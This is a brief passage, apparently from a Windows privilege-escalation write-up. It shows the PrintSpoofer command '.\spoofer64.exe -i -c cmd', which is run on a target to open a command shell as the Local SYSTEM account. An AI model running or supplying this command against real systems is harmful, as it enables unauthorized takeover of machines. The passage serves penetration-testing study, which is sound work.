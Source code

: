 ## Impersonating the Local SYSTEM Account with PrintSpoofer

after we have download the binary we just need to transfer it to our target and run the following command
```
command: .\spoofer64.exe -i -c cmd
```
